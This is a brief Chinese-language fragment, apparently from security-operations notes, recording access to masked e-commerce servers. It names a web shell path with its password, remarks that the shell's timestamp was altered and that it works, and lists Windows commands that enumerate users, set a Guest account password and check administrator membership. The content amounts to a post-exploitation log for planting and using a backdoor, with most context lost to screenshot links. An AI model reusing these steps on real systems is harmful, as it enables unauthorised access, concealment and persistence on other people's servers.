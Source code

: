 <http://xx.xx.xx.xx/weimall> mall.xx.cn v.xx.cn

![](\assets\img\安全运维\file_html_b9a7ba7d2ab3078c.png)

<http://xx.xx.xx.xx/fenxiao/> 米某网 

<http://xx.x.xx.xx/fenxiao/api/client/uc.php> youxiu
（已修改时间，该shell好用）

`net user`

![](\assets\img\安全运维\file_html_d3ed608fe971124a.png)

`net user Guest xiuyou!`

![](\assets\img\安全运维\file_html_6ea978c38fc505e6.png)


`net localgroup administrators`
